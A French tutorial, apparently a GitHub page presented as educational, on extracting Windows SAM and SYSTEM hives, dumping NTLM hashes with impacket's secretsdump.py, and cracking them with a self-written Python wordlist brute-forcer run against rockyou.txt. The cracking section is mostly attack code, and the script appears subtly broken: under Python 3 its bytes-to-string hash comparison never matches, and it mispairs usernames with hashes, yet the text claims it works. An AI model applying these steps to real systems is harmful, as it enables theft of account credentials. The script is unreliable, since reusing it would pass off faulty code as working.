

Introduction
----
Dans ce cours à but éducatif nous allons voir comment dumper et casser des mots de passe Microsoft grâce au système de fichier `Security Account Manager` (SAM) ou en français `Gestionnaire de compte de sécurité`.

SAM
----
Alors commençons par la base des bases c'est quoi `SAM` concrètement ?  

La SAM (Security Account Manager ou gestionnaire des comptes de sécurité) est la base de données des comptes locaux sur Windows Server 2003, Windows XP, Windows 2000. C'est l'un des composants de la base de registre. Elle contient les mots de passe locaux.

La SAM est stockée physiquement dans le fichier `%SystemRoot%\system32\Config\SAM`. C'est un fichier de ruche inclus dans `HKEY_LOCAL_MACHINE`, lui-même inclus dans la base de registre. Si vous regardez bien, nous voyons très bien que les clés `SAM` et `SYSTEM` sont dans le registre de Windows.

Nous allons enregistrer une copie des sous-clés, entrées ou données spécifiées du registre dans un format binaire via la commande `reg`. La commande `reg` est une commande Microsoft et le but du programme est de gérer le registre de Windows (Très utile pour les personnes qui n'aiment pas le GUI).

Une très bonne documentation de `REG` : [REG](https://windows.developpez.com/cours/ligne-commande/?page=page_17)

Les deux sous-clés `SAM` et `SYSTEM` ont été enregistrer dans la racine de Windows `C:\sam/system`. Nous arrivons dans la phase pour dumper les fichiers dans mon cas je vais faire ça sous Windows mais sous Linux ça peut également très bien fonctionner.

IMPACKET
----
Avant de dump le fichier, on va s'assurer que `impacket` est installer dans notre machine, voici le lien pour l'installer [impacket](https://github.com/SecureAuthCorp/impacket)

Impacket est un ensemble de classes Python permettant de travailler avec des protocoles réseau. Impacket se concentre sur la fourniture d'un accès programmatique de bas niveau aux paquets et à certains protocoles (par exemple, SMB1-3 et MSRPC), la mise en œuvre du protocole elle-même.

Pour l'installation de `impacket` :  

Avant d'utiliser le programme nous allons mettre le dossier `examples` dans la variable d'environnement de l'ordinateur. Pour éviter toujours d'aller vers le dossier, ça peut être assez long et assez chiant.

Concrètement pour utiliser le programme `secretsdump.py` il vous suffit d'utiliser seulement 3 options en particulier, `-sam`, `-system` et enfin pour l'option finale `LOCAL`.

> -sam    : Spécifier le fichier `SAM`.  
> -system : Spécifier le fichier `SYSTEM`.  
> LOCAL   : Si vous voulez analyser les fichiers locaux. 

Le dumping à fonctionner avec succès donc maintenant nous allons passer au casse du HASH. Il faut avant tout identifier le `HASH` cela ressemble grandement à du `NT Lan Manager` (NTLM). 

CRACK
----
Alors concrètement comme aujourd'hui je suis de bonne humeur, j'ai crée un script en Python rien que pour vous. C'est un petit script qui fais très bien le boulot pour bruteforce le `HASH`.


#coding:utf-8

import sys
import hashlib
import binascii

def recover_hash_nt():
	with open(sys.argv[1], "r") as ptr_open:
		ptr_open = ptr_open.readlines()

	username_list = []
	hash_checking = []

	for line_strip in ptr_open:
		'''
			Boucle pour lire le fichier et de
			trouver les valeurs précises dans la fonction __recover_hash_nt__().
		'''
		line_strip = line_strip.strip("\n")
		line_strip = line_strip.split(":")

		username   = line_strip[0]
		hash_check = line_strip[3]

		username_list.append(username)
		hash_checking.append(hash_check)

	with open(sys.argv[2], "r") as ptr_wordlist:
		ptr_wordlist = ptr_wordlist.readlines()

	for ptr_hash in hash_checking:
		ptr_hash = ptr_hash.strip("\n")
		'''
			read the hash in the loop
			__recover_hash_nt()__.
		'''
		for ptr_username in username_list:
			ptr_username = ptr_username.strip("\n")
			'''
				read the username in the loop
				__recover_hash_nt()__.
			'''
			for ptr_list in ptr_wordlist:
				ptr_list = ptr_list.strip("\n")
				'''
					read the wordlist in the loop.
					__recover_hash_nt()__.
				'''
				ptr_ntlm = hashlib.new('md4', ptr_list.encode('utf-16le')).digest()
				if(binascii.hexlify(ptr_ntlm) == ptr_hash):
					print("[+] CRACKED !! : [%s:%s:%s]" %(ptr_username, ptr_hash, ptr_list))
					sys.exit(0)

if __name__ == "__main__":
	recover_hash_nt()
  


L'utilisation du programme :

	C:\Users\Administrateur\Desktop>python ntlm.py hash.log rockyou.txt

Nous avons juste 2 arguments à mettre.. Dans le fichier `hash.log` il y a les hashs de stockés et dans le fichier `rockyou.txt` c'est simplement une wordlist pris sur le web.

N'oubliez pas de mettre les arguments sinon le programme ne fonctionne pas. Si vous souhaitez casser un HASH, vous devez créé un fichier texte, et que vous mettez la ligne avec l'utilisateur.

Par exemple mon fichier hash.log :

	Seyptoo:1001:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::

